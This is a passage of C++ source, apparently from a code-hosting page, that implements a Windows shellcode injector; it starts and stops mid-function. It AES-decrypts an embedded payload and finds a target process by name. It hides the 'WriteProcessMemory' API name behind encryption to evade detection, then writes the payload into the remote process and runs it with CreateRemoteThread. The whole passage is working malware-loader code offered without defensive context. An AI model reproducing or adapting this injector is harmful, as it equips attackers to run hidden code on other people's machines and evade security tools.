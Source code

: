```c++
        HCRYPTHASH hHash;
        HCRYPTKEY hKey;
        if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)){
                return -1;
        }
        if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)){
                return -1;
        }
        if (!CryptHashData(hHash, (BYTE*)key, (DWORD)keylen, 0)){
                return -1;              
        }
        if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0,&hKey)){
                return -1;
        }
        
        if (!CryptDecrypt(hKey, (HCRYPTHASH) NULL, 0, 0, payload, &payload_len)){
                return -1;
        }
        CryptReleaseContext(hProv, 0);
        CryptDestroyHash(hHash);
        CryptDestroyKey(hKey);
        return 0;
}

//Process injection search for process
int Find(const char *procname) {
        HANDLE hProcSnap;
        PROCESSENTRY32 pe32;
        int pid = 0;
	hProcSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);	
	if (INVALID_HANDLE_VALUE == hProcSnap) return 0;
        pe32.dwSize = sizeof(PROCESSENTRY32);             
        if (!Process32First(hProcSnap, &pe32)) {
                CloseHandle(hProcSnap);
                return 0;
        } 
        while (Process32Next(hProcSnap, &pe32)) {
                if (lstrcmpiA(procname, pe32.szExeFile) == 0) {
                        pid = pe32.th32ProcessID;
                        break;
                }
        }
        
        CloseHandle(hProcSnap);   
        return pid;
}

//Do the actual code injections 

int m4(HANDLE hProc, unsigned char * payload, unsigned int payload_len) {
        LPVOID pRemoteCode = NULL;
        HANDLE hThread = NULL;	
	AESDecrypt((char *) sWriteProcessMemory, sizeof(sWriteProcessMemory), key, sizeof(key));
	pWriteProcessMemory = GetProcAddress(GetModuleHandle("kernel32.dll"), sWriteProcessMemory);	
        pRemoteCode = VirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
        pWriteProcessMemory(hProc, pRemoteCode, (PVOID)payload, (SIZE_T)payload_len, (SIZE_T *)NULL);
        hThread = CreateRemoteThread(hProc, NULL, 0, pRemoteCode, NULL, 0, NULL);
        if (hThread != NULL) {
                WaitForSingleObject(hThread, 500);
                CloseHandle(hThread);
                return 0;
        }
```